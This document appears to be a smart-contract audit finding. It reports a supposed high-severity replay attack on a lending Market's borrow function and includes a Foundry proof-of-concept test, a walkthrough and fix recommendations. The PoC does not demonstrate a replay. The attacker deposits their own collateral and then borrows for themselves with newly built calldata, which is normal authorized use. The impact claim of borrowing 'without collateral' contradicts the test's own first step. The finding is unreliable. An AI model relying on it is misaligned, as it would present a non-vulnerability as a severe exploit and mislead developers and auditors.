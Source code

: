 Witty Walnut Salmon

high

# [H-1] Replay Attack Vulnerability in `Market::Borrow` Function (Lack of Transaction Uniqueness + Unauthorized Borrowing)

## Summary
The `Market` contract is vulnerable to replay attacks in the `borrow` function. An attacker can capture a valid borrow transaction performed by another user and replay it without proper authorization, allowing them to borrow assets in the same manner. This vulnerability stems from the lack of transaction uniqueness and insufficient validation of the borrower's identity and authorization.

## Vulnerability Detail

Create a new file in the test folder and paste the following code:

```javascript 
// SPDX-License-Identifier: BUSL-1.1
pragma solidity ^0.8.17; // solhint-disable-line one-contract-per-file

import { MockERC20 } from "solmate/src/test/utils/mocks/MockERC20.sol";
import { ERC1967Proxy } from "@openzeppelin/contracts/proxy/ERC1967/ERC1967Proxy.sol";
import { Test, stdError } from "forge-std/Test.sol";
import { FixedPointMathLib } from "solmate/src/utils/FixedPointMathLib.sol";
import { MockInterestRateModel } from "../contracts/mocks/MockInterestRateModel.sol";
import { MockBorrowRate } from "../contracts/mocks/MockBorrowRate.sol";
import { Auditor, IPriceFeed, InsufficientAccountLiquidity } from "../contracts/Auditor.sol";
import { InterestRateModel, Parameters } from "../contracts/InterestRateModel.sol";
import { PriceFeedWrapper } from "../contracts/PriceFeedWrapper.sol";
import { PriceFeedDouble } from "../contracts/PriceFeedDouble.sol";
import { MockPriceFeed } from "../contracts/mocks/MockPriceFeed.sol";
import { MockStETH } from "../contracts/mocks/MockStETH.sol";
import { FixedLib } from "../contracts/utils/FixedLib.sol";
import {
  ERC20,
  Market,
  FixedLib,
  ZeroRepay,
  NotAuditor,
  ZeroBorrow,
  ZeroDeposit,
  ZeroWithdraw,
  Disagreement,
  MarketFrozen,
  NotPausingRole,
  InsufficientProtocolLiquidity
} from "../contracts/Market.sol";

contract ReplayAttackTest is Test {
  using FixedPointMathLib for uint256;
  using FixedPointMathLib for uint128;

  Market internal market;
  Auditor internal auditor;
  MockERC20 internal asset;
  MockInterestRateModel internal irm;

  address internal constant ATTACKER = address(0x1337);
  address internal constant ALICE = address(0x1111);

  function setUp() external {
    // Set up the necessary contracts and state
    asset = new MockERC20("DAI", "DAI", 18);
    auditor = Auditor(address(new ERC1967Proxy(address(new Auditor(18)), "")));
    auditor.initialize(Auditor.LiquidationIncentive(0.09e18, 0.01e18));
    irm = new MockInterestRateModel(0.1e18);

    market = Market(address(new ERC1967Proxy(address(new Market(asset, auditor)), "")));
    market.initialize(
      "DAI", 3, 1e18, InterestRateModel(address(irm)), 0.02e18 / uint256(1 days), 1e17, 0, 0.0046e18, 0.42e18
    );

    auditor.enableMarket(market, IPriceFeed(auditor.BASE_FEED()), 0.8e18);

    // Increase liquidity by minting tokens to the market contract
    asset.mint(address(market), 1_000_000 ether);

    asset.mint(ATTACKER, 1000 ether);
    asset.mint(ALICE, 1000 ether);

    vm.prank(ATTACKER);
    asset.approve(address(market), type(uint256).max);

    vm.prank(ALICE);
    asset.approve(address(market), type(uint256).max);
  }

  function testReplayAttack() external {
    uint256 initialDeposit = 1000 ether;
    uint256 borrowAmount = 100 ether;

    // Step 0: Attacker deposits collateral
    vm.startPrank(ATTACKER);
    market.deposit(initialDeposit, ATTACKER);
    vm.stopPrank();

    // Step 1: Alice performs a successful borrow transaction
    vm.startPrank(ALICE);
    market.deposit(1000 ether, ALICE);
    market.borrow(borrowAmount, ALICE, ALICE);
    vm.stopPrank();

    // Step 2: Attacker captures the successful transaction data
    bytes memory borrowData = abi.encodeWithSelector(market.borrow.selector, borrowAmount, ATTACKER, ATTACKER);

    // Step 3: Attacker replays the transaction
    vm.prank(ATTACKER);
    (bool success,) = address(market).call(borrowData);
    require(success, "Replay attack failed");

    // Step 4: Verify that the attacker successfully borrowed assets
    (, uint256 attackerBorrowedAmount) = market.accountSnapshot(ATTACKER);
    assertEq(attackerBorrowedAmount, borrowAmount);
  }
}
```

To run this test, run `forge test --mt testReplayAttack`

Walkthrough of `Contract ReplayAttackTest` :

In the setup phase, the necessary contracts are deployed, and the market is enabled. The attacker and Alice are both minted 1,000 ether of the asset token.
Step 0: The attacker deposits 1,000 ether as collateral using the `deposit` function.
Step 1: Alice performs a successful borrow transaction by depositing 1,000 ether and borrowing 100 ether using the `deposit` and `borrow` functions, respectively.
Step 2: The attacker captures the successful borrow transaction data using `abi.encodeWithSelector` to encode the function selector and parameters of Alice's borrow transaction.
Step 3: The attacker replays the captured transaction using the `call` function, effectively executing the same borrow transaction as Alice.
Step 4: The test verifies that the attacker successfully borrowed the same amount of assets as Alice by checking the attacker's borrowed amount using the `accountSnapshot` function.

## Impact

The impact of this bug is that it allows attackers to borrow assets without proper authorization or collateral, putting the protocol's funds and liquidity at risk. Attackers can exploit this vulnerability to drain the protocol's liquidity by repeatedly replaying borrow transactions. This vulnerability directly impacts the funds of the protocol and its users and can severely disrupt the protocol's functionality.

## Code Snippet

The `Market::Borrow` function can be found here: https://github.com/sherlock-audit/2024-04-interest-rate-model/blob/main/protocol/contracts/Market.sol?plain=1#L140-L169

## Tool used
Foundry
Manual Review

## Recommendation
To mitigate the replay attack vulnerability, the following measures should be implemented:

1. Include a unique nonce or transaction identifier in each transaction to ensure that each transaction can only be executed once. This can be achieved by adding a nonce parameter to the borrow function and keeping track of the nonces used by each user.
2. Verify the sender's identity and authorization before processing a transaction. Ensure that the borrower address is the same as the msg.sender or has been properly authorized to perform the borrow operation.
3. Implement a mechanism to invalidate or expire transactions after a certain period to prevent them from being replayed. This can be done by adding a timestamp or block number to the transaction data and rejecting transactions that are older than a specified threshold.